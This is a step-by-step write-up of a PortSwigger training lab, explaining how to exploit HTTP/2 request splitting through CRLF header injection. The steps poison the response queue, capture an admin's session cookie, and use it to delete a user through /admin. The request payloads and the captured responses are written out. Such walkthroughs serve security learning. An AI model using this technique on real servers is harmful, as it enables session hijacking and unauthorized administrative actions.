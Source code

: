 # HTTP/2 request splitting via CRLF injection

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

## To solve the lab, delete the user `carlos` by using [response queue poisoning](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning) to break into the admin panel at `/admin`. An admin user will log in approximately every 10 seconds.

## The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

step 1
send homepage to repeater

![screenshot](./images/images_lab14/lab14_get_request_homepage.png)

step 2
change get request GET / to GET /x

![screenshot](./images/images_lab14/lab14_get_request_with_404_page.png)

step 3
add payload

```http
bar

GET /x HTTP/1.1
Host: 0ac2004c03a60b4a823d249c00270089.web-security-academy.net
```

![screenshot](./images/images_lab14/lab14_add_payload.png)

step 4

send request multiple time to get 302 response

![screenshot](./images/images_lab14/lab14_getting_302_response.png)

```http
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=6Mj7DsnwJX0iwQ2VSbGWdKGXuYsqQ4vW; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

step 5
change value
send request using step 1

```http
GET /admin HTTP/1.1
Host: 0ac2004c03a60b4a823d249c00270089.web-security-academy.net
Cookie: session=6Mj7DsnwJX0iwQ2VSbGWdKGXuYsqQ4vW;
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
```

![screenshot](./images/images_lab14/lab14_access_admin_panel.png)

step 6
delete carlos account

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0ac2004c03a60b4a823d249c00270089.web-security-academy.net
Cookie: session=6Mj7DsnwJX0iwQ2VSbGWdKGXuYsqQ4vW;
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
```

![screenshot](./images/images_lab14/lab14_delete_carlos_account.png)

step 7
![screenshot](./images/images_lab14/lab14_lab_solved.png)
